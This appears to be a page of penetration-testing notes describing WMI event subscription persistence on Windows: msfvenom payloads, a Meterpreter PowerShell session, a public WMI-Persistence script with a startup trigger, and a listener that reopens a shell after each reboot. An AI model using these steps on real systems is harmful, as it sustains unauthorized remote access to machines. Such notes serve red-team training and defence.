 # WMI

WMI (Windows Management Instrumentation) event subscription can be used to install event filters, providers, and bindings that execute code when a defined event occurs. It enables system administrators to perform tasks locally and remotely.

> (will create two payloads, one to gain access to the system and another for WMI event subscription)

1. Create two payload with `msfvenom` give the output `payload.exe`and `wmi.exe`&#x20;
2. Send both payload to target and run the `payload.exe`first
3. upload a file from **wmi-persistence** and load powershell by  `load powershell`&#x20;

{% embed url="https://github.com/subesp0x10/Wmi-Persistence" %}

4. open powershell in the console by type `powershell_shell`
5. import the module by type `Import-Module ./WMI-Persistence.ps1`
6. Type `Install-Persistance -Trigger Startup -Payload "C:\Users\Administrator\Downloads\wmi.exe"` &#x20;

> it will take approx. 5 minutes to run

7. Now open another terminal and set up listener that point the port to the `wmi.exe` , so whenever the machine is restarted, the session will open and get the machine rooted.

